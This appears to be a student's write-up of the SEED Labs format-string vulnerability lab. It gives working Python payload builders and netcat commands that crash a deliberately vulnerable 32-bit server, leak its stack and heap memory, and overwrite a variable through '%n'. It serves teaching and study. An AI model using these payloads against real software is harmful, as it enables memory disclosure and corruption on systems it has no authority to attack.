








# Seed labs guide (Format-String vulnerability Lab)

## What is it?
From the introduction, we understood what a format string vulnerability is and how it can happen. It happens when the user provides a string that is not sanitized, and the program uses it as a format string. This allows the user to crash the program, print its memory contents, modify them and even inject code. In this logbook, we cover only the first three.

## Environment setup and understanding the program
As specified in the guide, we turned off the countermeasure of address space randomization to simplify the tasks, by doing:
```bash
sudo sysctl -w kernel.randomize_va_space=0
```
### Analysis of the program
In the server-code folder, we explored the program and its vulnerability.

As expected, it has a format-string vulnerability, since it reads input given by the user and uses it as a format string. This is the critical line, where "msg" comes directly from user input:
```c
// This line has a format-string vulnerability
printf(msg);
```

In order to compile this code, we ran "make" and to copy the binary into the containers, we ran "make install". There is a compilation warning, which signals the format-string vulnerability of the program.


### Container setup
We ran the following commands to setup the containers:
```bash
docker-compose build
docker-compose up
```
We'll only be using the container 10.9.0.5 in this logbook (tasks 1 to 3.B), since it is 32 bits.
## Task 1: Crashing the program
First, we tested the connection and the output of the server by sending a simple message. We used a new terminal window and ran:
```bash
echo 'Hello World' | nc 10.9.0.5 9090'
```
We also needed to do CTRL+C at the end because the program reads 1500 characters from stdin and we only provided a few.



The result in the server was this.



From now on, as suggested in the guide, we used the python script provided to generate the badfile, which we would then send to the server using:
```bash
cat badfile | nc 10.9.0.5 9090
```
We tested making badfile be filled with 1500 "%x", but it did not crash the program, although it did print its memory contents.
After this, we tested with 1500 "%s" and that crashed it, as shown here:



At the start, we were not fully sure why. However, we now understand it crashes because "%s" expects an address as an argument. There are no arguments, so it reads an invalid address and tries to read from where it points, which causes the program to crash. Using "%x" will not crash, since this simply reads an argument in hexadecimal. Here, with no arguments, it just reads from the program's memory.

## Task 2: Printing out the server program's memory
### Task 2.A: Stack Data
The objective of this task is to print the data on the stack, specifically determining the number of "%x" needed to print the first four bytes of our input.

Firstly, we tried doing it with a small number of "%x" and then increasing it until we got the first four bytes of our input.
```python
s = "ABCD" + "%x" * 10
```
This did not print our values, so we increased it.
We ended up succeeding with 100 "%x". In fact, we were able to identify the first four bytes of our input "ABCD" by "44434241", which is ABCD backwards in hexadecimal (little-endian). Afterwards, we reduced the number to find the exact amount needed, and we ended up with the following.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

s = "ABCD" + "%x" * 64
fmt  = (s).encode('latin-1')
content[0:len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

To run, we just do:

```bash
python3 build_string.py         # generate badfile
cat badfile | nc 10.9.0.5 9090  # send badfile to the server
```
Note that this is a generic way to run the script and will be used for the other tasks as well.

And the server output was this:



Note the sequence "44434241" in the end of the output, which is the hexadecimal representation of "ABCD" in little-endian.

### Task 2.B: Heap Data
The objective of this task is to print the value of the variable "secret_message", which is stored on the heap of the program. We already know the address of the variable from the server print-outs. It is 0x080b4008.


We need to read the secret_message string, which is at address 0x080b4008. We can do this by using "%s" and passing the address as an argument. This is done by passing the address in the stack, as shown below.

We can put the address of the variable at the beginning of our file (in binary), and then use "%s" to read it.

We already know how many "%x" are needed to get to the beginning of our input, so we use that amount to get there and then use "%s" to read the content of the variable situated at that address (secret_message).


```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

address  = 0x080b4008
content[0:4] = (address).to_bytes(4,byteorder='little')

s = "%x" * 63 + "%s"

fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
As explained, %s finds the address "0x080b4008" and prints the string at that address. Normally, this would be an argument passed to the function, but here we control the format string and can exploit this by passing the address in the string.

The result in the server is as follows:



As it is shown, we have successfully read the secret_message.


## Task 3
The objective is to change the value of the target variable, which is stored in the heap.

So, instead of reading the string at the address given, we will be changing the value at the address given.
The way to do this with a format string is to use "%n". This changes the value of the variable in the address given to be the number of bytes printed so far.

A normal/safe use of this would be:
```c
int charCount;
printf("Hello, world!%n\n", &charCount);
```

### Task 3.A
In this subtask, the goal is to change the content of the variable "target". The address of that variable is "0x080e5068", as already seen in the printouts of the server.


From task 2, we know how to pass the address of a variable to a format specifier that requires an address.
So we can simply change the address to be the target's address and use "%n" at the end of the 63 "%x" to change its value.

```python
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

address  = 0x080e5068
content[0:4] = (address).to_bytes(4,byteorder='little')

s = "%x" * 63 + "%n"

fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt


# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

The result in the server is the following:



After the execution of "myprintf", the value of the variable is no longer "0x11223344", and is now "0x000000ec", which is 236 in decimal, the number of bytes printed so far.


### Task 3.B
In this task, we want to modify the content of target to be a specific value: 0x5000.

To use the same strategy as in task 3.a, we would have to print 0x5000 bytes before the "%n", which is 20480 in decimal. We cannot just add a lot of "%x", because the server only reads 1500 characters.

So, we need to find a way to print more characters. We can do this by using the "%x" specifier with a number before the "x". This number specifies the minimum number of characters to be printed.

In the example below, we'll be reading 8 characters for each of the "%x".

```python
address = 0x080e5068
content[0:4] = (address).to_bytes(4,byteorder='little')

s = "%8x" * 63 + "%n"

fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt
```
The server result:


Before, no empty spaces were printed. Now it is effectively printing 8 characters for each of the hexadecimal prints. 63 * 8 = 504, and the value of the target variable is 0x1fc, which is 508 in decimal. This is because of the first four bytes printed which to the address of the target variable, "0x080e5068".


Now, we just need to make one of the %x have more characters printed (these will be empty spaces, but it counts towards bytes printed, i.e. for the "%n"). We need 20480 bytes and have 508, so we just need to add 20480 - 508 = 19972 empty spaces. 
So, on the last "%x", instead of just printing 8 characters, we'll print 19980 characters.

```python
address  = 0x080e5068
content[0:4] = (address).to_bytes(4,byteorder='little')

s = "%8x" * 62 + "%19980x" + "%n"

fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt
```
Now, when we get to the "%n", the number of characters printed will be 4 + 62 * 8 + 19980 = 20480, which is the value in decimal that we need to write to the target variable.

In conclusion, the value of the target variable will be changed to the desired 0x5000 value.
After running the python code and sending the badfile to the server, we can check the server's output.



As expected, a lot of empty spaces were printed in the server output and, in the end, we could see that the value of the variable target was sucessfully changed to 0x5000.

